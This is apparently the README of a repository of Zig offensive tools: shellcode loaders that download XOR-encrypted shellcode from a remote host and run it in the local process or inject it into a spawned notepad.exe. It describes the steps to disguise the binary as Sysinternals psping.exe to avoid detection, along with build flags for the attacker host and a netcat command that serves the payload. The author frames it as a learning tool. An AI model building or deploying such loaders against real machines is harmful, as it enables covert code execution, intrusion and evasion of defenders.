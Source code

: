> offensive security tools written in zig 

**NOTE**: built w/ zig 0.14.0-dev.138+02b3d5b58
# contents
---
**utilities**:
- xor.py
	script to xor encrypt shellcode

**shellcode loaders**:
- local
	injects shellcode downloaded from a remote socket in the local process and executes via a function pointer
- remote
	creates a sacrificial *notepad.exe* process, allocates RWX memory, then executes via remote thread

## opsec
---
> generally this is just a learning tool for me, but i am also trying to implement opsec-aware techniques which reduce detections for payloads

### masking executable metadata
executable metadata is masked to appear as `psping.exe` from Sysinternals, but this can be customized in `metadata.rc` 

## shellcode loaders
---
#### building
> this will build all payloads as individual `.exe` files

`zig build -Dtarget=x86_64-windows -Dhost="<ip>" -Dport=<port> -Dsize=<payload_size>`

#### running 
1. stage shellcode w netcat
	`sudo nc -vv -l -k -p 80 < payload.bin`
2. download & execute the `.exe` on target
3. profit

### local
---
#### overview
1. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
2. xor decrypts downloaded shellcode using hardcoded key

3. allocates RWX memory within the current process using `std.os.windows.VirtualAlloc` and copies the shellcode into the region

4. executes the memory by creating a function which points to the base address of the region: `const func: *const fn () callconv(.C) i32 = @ptrCast(memory);`
### remote
---
#### overview
1. spawns a new *notepad.exe* process in a suspended state and opens a handle to it
   
2. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
3. xor decrypts downloaded shellcode using hardcoded key
   
4. allocates RWX memory in the remote process using `VirtualAllocEx` and write shellcode to the region using `WriteProcessMemory`

5. finally, spawns a remote thread pointed at the memory region of the *notepad.exe* process which contains our shellcode using `NtCreateThreadEx`, then resumes the thread to execute
   
